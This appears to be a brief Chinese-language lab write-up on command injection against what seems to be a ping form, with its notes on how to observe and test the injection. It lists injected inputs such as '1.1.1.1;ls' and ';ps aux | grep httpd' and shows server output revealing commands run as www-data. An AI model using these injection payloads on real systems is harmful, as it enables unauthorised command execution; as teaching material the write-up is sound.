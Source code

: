 # Command injection

### 觀察
可以先隨便試看看，試著猜想它可能是用麼條件結尾或斷行

```
1.1.1.1 && ls
```
```
1.1.1.1&&ls
```

### 漸進式的測試
猜到 `;`，可以試試看有沒有更簡短或省時間的方式

```
1.1.1.1;ls
```

```
;pwd
```

```
;ps aux | grep httpd
```

```
www-data   645  0.0  0.0   4296   752 ?        S    05:44   0:00 sh -c ping  -c 4 ;ps aux | grep httpd
www-data   648  0.0  0.0  11120   992 ?        S    05:44   0:00 grep httpd
```

## Done

web service user is `www-data`
